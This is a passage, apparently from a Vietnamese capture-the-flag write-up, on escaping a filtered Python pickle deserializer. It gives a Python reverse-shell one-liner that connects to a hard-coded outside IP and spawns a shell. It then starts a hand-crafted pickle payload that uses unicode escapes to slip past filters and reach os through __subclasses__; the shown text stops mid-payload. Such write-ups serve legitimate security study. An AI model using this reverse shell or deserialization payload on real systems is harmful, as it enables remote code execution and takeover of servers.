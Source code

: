 ![](images/bypass_pickle_image17.png)

### Bonus

Thực thi được lệnh rồi mà chưa reverse shell thì hơi phí. Ta đã thành công gọi method eval của python nên có thể trực tiếp sử dụng các payload revshell của python:

```python
export RHOST="13.213.213.17";
export RPORT=10774;
python -c '
import sys,socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("sh")
'
```

Ta có thể thực gói đống này lại vào trong `__import__('os').system('....')` để hoàn thiện thực thi revshell. Payload cuối cùng với unicode kí tự `_` và `s`, ở đây ta có thể nhảy vào trong docker hoặc brute force xem os._wrap_close_ nằm ở index nào, trong trường hợp này là 134:

```python
import base64
raw = (
    b"\x80\x04"
    b"V__main__\n"
    b"V__class__.__base_\u005f.__subclasses__\n"
    b"\x93"
    b"(" b"t" b"R"
    b"p0\n"
    b"V__main__\n"
    b"V__class__.__base_\u005f.__getattribute__\n"
    b"\x93"
    b"p1\n"
    b"(" b"g0\n" b"V__getitem__\n" b"t" b"R"
    b"(" b"I134\n" b"t" b"R"
    b"p2\n"
    b"g1\n"
    b"(" b"g2\n" b"V__init__\n" b"t" b"R"
    b"p3\n"
    b"g1\n" b"(" b"g3\n" b"V__globals_\u005f\n" b"t" b"R"
    b"p4\n"
    b"g1\n" b"(" b"g4\n" b"V__getitem__\n" b"t" b"R"
```